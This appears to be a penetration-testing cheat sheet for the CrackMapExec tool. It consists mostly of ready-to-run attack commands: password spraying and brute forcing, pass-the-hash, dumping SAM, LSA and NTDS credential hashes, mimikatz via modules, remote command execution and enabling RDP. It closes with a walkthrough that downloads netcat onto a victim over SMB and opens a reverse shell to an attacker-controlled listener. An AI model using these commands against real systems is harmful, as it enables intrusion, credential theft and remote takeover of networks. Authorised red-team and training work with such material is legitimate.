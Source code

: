# crackmapexec

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

## CrackMapExec full cheat sheet

{% embed url="https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/" %}



## Installation

Install in python environment:

```text
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install --user pipenv
git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
 cd CrackMapExec && pipenv install
 pipenv shell
 python setup.py install
 crackmapexec
```

![](../../../.gitbook/assets/image%20%28256%29.png)

install on system \(might have some problems\):

```text
apt install crackmapexec
```

the overal syntax is like this:

```text
crackmapexec [protocol] [target] -u [username] -p [password] -H [hash or hash flie]
```

example:

```text
crackmapexec smb 192.168.56.115 -u Administrator -H f4750eeb6dd87b3e60faa9cc23809750 cmd.exe
```

### logs and output files

```text
/root/.cme/logs/
```

### Target Formats

```text
crackmapexec <protocol> ms.evilcorp.org
crackmapexec <protocol> 192.168.1.0 192.168.0.2
crackmapexec <protocol> 192.168.1.0/24
crackmapexec <protocol> 192.168.1.0-28 10.0.0.1-67
crackmapexec <protocol> ~/targets.txt
```

Using Credentials

```text
crackmapexec <protocol> <target(s)> -u username -p password
```

{% hint style="info" %}
When using usernames or passwords that contain special symbols, wrap them in single quotes to make your shell interpret them as a string
{% endhint %}

example:

```text
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'
```

{% hint style="info" %}
if credentials start with ‘-’ use the long format
{% endhint %}

```text
crackmapexec <protocol> <target(s)> -u='-username' -p='-Admin!123@'
```

### Using a credential set from the database

```text
crackmapexec <protocol> <target(s)> -id <cred ID(s)>
```

### Brute Forcing & Password Spraying

```text
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
crackmapexec <protocol> <target(s)> -u /userlist -p /passlist
crackmapexec <protocol> <target(s)> -u /userlist -H /hashlist
```

### Viewing available modules for a Protocol

```text
cme <protocol> -L
```

#### using modules:

```text
cme <protocol> <target(s)> -M <module name>
```

#### Viewing module options:

```text
cme <protocol> -M <module name> --options
```

#### Using module options:

Module options are specified with the -o flag

```text
cme <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'
```

### enumerate smb status of all systems in a domain

```text
crackmapexec  smb 192.168.56.1/24
```

### pass the hash

```text
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH
```

pass the password

```text
crackmapexec smb 192.168.56.1/24 -u 'hesher' -p 'password123!'
```

## Options & Modules

### dump sam file from all owned machines

```text
--sam
```

### enumerate the domain’s password policy

```text
--pass-pol
```

### dump lsa hashes

```text
--lsa
```

### dump ntds file

```text
--ntds drsuapi
```

### enumerate all AD objects including users and groups by guessing every resource identifier \(RID\)

```text
 --rid-brute
```

### enumerate AVs in the domain

```text
-M enum_avproducts
```

### execute a command on victim machine

```text
-X whoami
```

### execute powershell commands

```text
 -X '$PSVersionTable'
```

### NULL Sessions

```text
crackmapexec smb <target(s)> -u '' -p ''
```

### enum shares

```text
--shares
```

### enumerate the disks on the hosts

```text
--disks
```

### enumerate existing sessions on the hosts

```text
--sessions
```

### list running processes

```text
-X get-process
```

### enum the directory structure

```text
-x "dir c:\\"  --exec-method smbexec

```

### enable RDP

```text
 -M rdp -o ACTION=enable
 xfreerdp /u:"hesher" /v:192.168.56.115:3389
```



## netcat or meterpreter reverse shell

First we setup our web server using Python's SimpleHTTPServer on port 443

```text
python -m SimpleHTTPServer 443
```

upload the file \( download with powershell on victim\)

```text
crackmapexec smb 192.168.56.115 -u 'hesher' -p 'password123!' -X "(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:443/nc64.exe','c:\nc64.exe')"
```

run msf and setup a multi handler

```text
use exploit/multi/handler
set payload windows/x86/shell/reverse_tcp
```

or nc listener

```text
ncat --verbose --listen 443 --keep-open --max-conns 1 --nodns
```

run nc on victim side

```text
crackmapexec smb 192.168.56.115 -u 'hesher' -p 'password123!' -X "c:\nc64.exe  -e cmd.exe 192.168.56.1 443"
```

upgrade to meterpreter session

```text
Ctrl+z
sessions -u [id]
```





